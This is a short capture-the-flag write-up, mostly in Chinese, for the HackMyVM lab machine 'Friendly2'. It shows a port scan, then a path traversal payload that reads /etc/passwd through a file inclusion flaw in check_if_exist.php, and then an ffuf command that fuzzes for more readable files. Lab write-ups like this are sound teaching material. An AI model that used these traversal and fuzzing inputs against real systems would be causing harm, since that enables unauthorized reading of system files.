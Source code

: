 # Friendly2

2025.02.22 https://hackmyvm.eu/machines/machine.php?vm=Friendly2

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描 发现 http://192.168.5.40/tools/ 查看源码发现注释信息：

```
<!-- Redimensionar la imagen en check_if_exist.php?doc=keyboard.html -->
```

访问 http://192.168.5.40/tools/check_if_exist.php?doc=keyboard.html 这里可能存在文件包含，尝试访问：

```
http://192.168.5.40/tools/check_if_exist.php?doc=../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
gh0st:x:1001:1001::/home/gh0st:/bin/bash
```

ffuf 看看还能读取到哪些信息：

```
ffuf -t 100 -ac -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.5.40/tools/check_if_exist.php?doc=../../../../../FUZZ
```

不能读取 apache 的 access.log 文件，
